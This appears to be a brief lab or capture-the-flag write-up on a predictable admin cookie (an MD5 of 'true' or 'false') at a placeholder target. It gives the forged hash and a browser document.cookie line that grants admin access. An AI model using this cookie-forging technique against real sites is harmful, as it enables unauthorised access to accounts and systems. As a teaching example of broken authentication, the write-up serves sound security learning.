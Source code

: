 # Session Hijacking via Predictable Cookie

## Vulnerability
Broken Access Control / Insecure Authentication

## Target
`http://{IP_ADDRESS}/`

## Mechanism
- Admin authentication used predictable MD5-hashed boolean in cookie:
  - User: `I_am_admin=md5('false')`
  - Admin: `I_am_admin=md5('true')`

## Exploit
1. Retrieved user cookie: `68934a3e9455fa72420237eb05902327`
2. Generated admin hash: `md5('true') = b326b5062b2f0e69046810717534cb09`
3. Set new cookie: `document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"`
